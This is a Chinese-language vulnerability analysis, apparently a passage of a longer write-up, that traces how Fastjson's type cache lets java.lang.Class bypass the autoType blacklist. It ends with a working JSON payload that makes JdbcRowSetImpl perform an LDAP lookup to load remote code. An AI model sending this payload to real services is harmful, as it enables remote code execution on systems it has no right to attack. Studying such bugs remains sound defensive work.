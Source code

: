 ![](../images/1616548832213.png)

如果 `parser.resolveStatus` 为`TypeNameRedirect` 时，进入 if 语句，会解析 “val” 中的内容放入 objVal 中，然后传入 strVal 中。

![](../images/1616549216642.png)

后面的逻辑如果 class 是 `Class.class` 时，将会调用 `loadClass` 方法，将 strVal 进行类加载并缓存：

![](../images/1616548937936.png)

这就完成了恶意类的加载，组成了我们所有的恶意调用链。但是如何在第二步进入 if 语句呢？这中间的调用链是什么样的呢？我们先构造一个 json ：`{"@type":"java.lang.Class","val":"aaaaa"}` ，调试一下：

`JSON.parseObject()` 调用 `DefaultJSONParser` 对 JSON 进行解析。

![](../images/1616551479274.png)

`DefaultJSONParser.parseObject()` 调用 `checkAutoType()` 检查待加载类的合法性。

![](../images/1616551465173.png)

由于 deserializers 在初始化时将  `Class.class` 进行了加载，因此使用 findClass 可以找到，越过了后面 AutoTypeSupport 的检查。

![](../images/1616551453453.png)

`DefaultJSONParser.parseObject()` 设置 resolveStatus 为 TypeNameRedirect。

![](../images/1616551442803.png)

`DefaultJSONParser.parseObject()` 根据不同的 class 类型分配 deserialzer，Class 类型由 `MiscCodec.deserialze()` 处理。

![](../images/1616551434486.png)

解析 json 中 “val” 中的内容，并放入 objVal 中，如果不是 "val" 将会报错。

![](../images/1616551427835.png)

传递至 strVal 并使用 `loadClass` 加载并缓存。

![](../images/1616551420168.png)

此时恶意的 val 成功被我们加载到 mappings 中，再次以恶意类进行 `@type` 请求时即可绕过黑名单进行的阻拦，因此最终 payload 为：
```json
{
	"su18": {
		"@type": "java.lang.Class",
		"val": "com.sun.rowset.JdbcRowSetImpl"
	},
	"su19": {
		"@type": "com.sun.rowset.JdbcRowSetImpl",
		"dataSourceName": "ldap://127.0.0.1:23457/Command8",
		"autoCommit": true
	}
}
```
